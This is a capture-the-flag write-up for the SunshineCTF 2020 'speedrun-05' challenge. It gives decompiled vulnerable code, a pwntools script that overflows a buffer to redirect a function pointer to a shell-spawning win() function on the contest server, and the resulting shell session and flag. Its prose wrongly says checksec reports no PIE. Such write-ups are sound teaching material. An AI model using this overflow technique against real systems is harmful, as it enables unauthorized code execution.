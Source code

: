 # **speedrun-05**

## Task
nc chal.2020.sunshinectf.org 30005
File: chall_05
Tag: binary exploitation 

## Solution

### Checksec 
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
* No canary assume BOF
* System 64 bit

### Decompile with ghidra
```c
void vuln(void)
{
  char local_48 [56];
  code *local_10;
  
  printf("Yes I\'m going to win: %p\n",main);
  fgets(local_48,100,stdin);
  (*local_10)();
  return;
}

void win(void)

{
  system("/bin/sh");
  return;
}
```
Checksec show output is NO PIE but the `printf` leak the server `main`  address so we can utilize that info to compare with our local `main` to caculate the offset gap = `local.main - server.main`, then overwrite `local_10` with server `win` address the we got the flag

### Exploit
```python
from pwn import *
binary = context.binary = ELF('./chall_05')
offset = binary.sym.main - binary.sym.win
payload = b'a'*(0x48-0x10)
p = remote('chal.2020.sunshinectf.org',30005)
p.sendline('lol')
p.recvuntil('Yes I\'m going to win: ')
addr  = p.recvline().strip()
payload += p64(int(addr,16) - offset)
p.sendline(payload)
p.interactive()
```

### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_05'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30005: Done
[*] Switching to interactive mode
$ ls
chall_05
flag.txt
$ cat flag.txt
sun{chapter-four-9ca97769b74345b1}
```
